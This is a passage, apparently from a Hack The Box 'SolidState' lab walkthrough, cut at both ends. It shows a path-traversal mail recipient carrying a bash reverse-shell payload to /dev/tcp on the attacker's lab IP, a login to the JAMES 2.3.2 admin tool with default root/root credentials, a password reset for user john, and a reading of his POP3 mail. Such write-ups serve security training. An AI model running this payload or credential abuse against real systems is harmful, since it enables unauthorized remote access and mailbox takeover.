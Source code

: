                 for <../../../../../../../../etc/bash_completion.d@localhost>;
                Wed, 10 Mar 2021 03:44:35 -0500 (EST)
      Date: Wed, 10 Mar 2021 03:44:35 -0500 (EST)
      From: team@team.pl

      '
      bash -i >& /dev/tcp/10.10.14.6/4488 0>&1

      .


3. As mentioned, to trigger the exploit we need to login to the machine some how. We can't find anything on port 80, so lets
   look through all users mailboxes.

  [p3:/git/htb/solidstate]$ telnet 10.10.10.51 4555                                                                                                   (master✱)
    Trying 10.10.10.51...
    Connected to 10.10.10.51.
    Escape character is '^]'.
    JAMES Remote Administration Tool 2.3.2
    Please enter your login and password
    Login id:
    root
    Password:
    root
    Welcome root. HELP for a list of commands
    setpassword john 123
      Password for john reset

  [p3:/git/htb/solidstate]$ telnet 10.10.10.51 110                                                                                                    (master✱)
    Trying 10.10.10.51...
    Connected to 10.10.10.51.
    Escape character is '^]'.
    +OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready
    USER john
      +OK
    PASS 123
      +OK Welcome john
    list
      +OK 1 743
      1 743
      .
    RETR 1
      +OK Message follows
      Return-Path: <mailadmin@localhost>
      Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
      MIME-Version: 1.0
      Content-Type: text/plain; charset=us-ascii
      Content-Transfer-Encoding: 7bit
      Delivered-To: john@localhost
      Received: from 192.168.11.142 ([192.168.11.142])
               by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
               for <john@localhost>;
               Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
      Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
      From: mailadmin@localhost
      Subject: New Hires access
      John,
